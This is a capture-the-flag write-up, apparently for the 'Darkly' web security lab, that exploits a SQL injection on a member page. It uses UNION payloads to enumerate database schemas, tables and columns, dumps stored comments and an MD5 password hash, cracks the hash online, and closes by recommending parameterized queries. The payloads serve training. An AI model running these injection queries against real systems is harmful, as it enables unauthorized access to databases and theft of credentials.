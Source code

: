 # SQL Injection (member)

## Vulnerability

At the top of the page, there is a `members` link to: [`index.php?page=member`](http://darkly/index.php?page=member).

The page contains an input and a button.
Giving an empty input and clicking on submit gave us the following error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```

That means that an SQL Injection is possible.
We can verify it by doing a simple query: [[run]](<http://darkly/index.php?page=member&id=1+OR+true&Submit=Submit#>)
```sql
1 OR true
```

Give the result:
```
ID: 1 OR true 
First name: one
Surname : me

ID: 1 OR true 
First name: two
Surname : me

ID: 1 OR true 
First name: three
Surname : me

ID: 1 OR true 
First name: Flag
Surname : GetThe
```

Since we can't blindly explore the database, we have to extract some metadata first.

The first one is the table name using the following query: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60SCHEMA_NAME%60,+1+FROM+%60information_schema%60.%60SCHEMATA%60);&Submit=Submit#:~:text=Member_Sql_Injection>)
```sql
1 UNION(SELECT `SCHEMA_NAME`, 1 FROM `information_schema`.`SCHEMATA`);
```

We can now see the tables name:
- `information_schema`
- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

Since the challenge seems to be an SQL Injection, let's take `Member_Sql_Injection`.

Now we need to extract the tables name: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60TABLE_NAME%60,+%60TABLE_SCHEMA%60+FROM+%60information_schema%60.%60TABLES%60);&Submit=Submit#:~:text=TABLES%60)%3B%20%0AFirst%20name%3A-,users,-Surname%20%3A%20Member_Sql_Injection>)
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

By filtering in the data, we can see that there is only one table: `users`.

Now we need to extract the columns name: [[run]](<http://darkly/index.php?page=member&id=1+UNION%28SELECT+%60TABLE_NAME%60%2C+%60COLUMN_NAME%60+FROM+%60information_schema%60.%60COLUMNS%60%29%3B&Submit=Submit#:~:text=name%3A%20users%0ASurname%20%3A-,user_id,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `TABLE_NAME`, `COLUMN_NAME` FROM `information_schema`.`COLUMNS`);
```

By filtering in the data, we now know the column names:
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

Only the last two contains interesting informations.

By querying them, we know what to do next: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60Commentaire%60,+%60countersign%60+FROM+%60users%60);&Submit=Submit#:~:text=5ff9d0165b4f92b14994e5c685cdce28>)
```sql
1 UNION(SELECT `Commentaire`, `countersign` FROM `users`);
```
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo:MD5
```

So, the flag is:
```
sha256(lower('FortyTwo'))
```

## Possible Fix

- Use parameterized query.

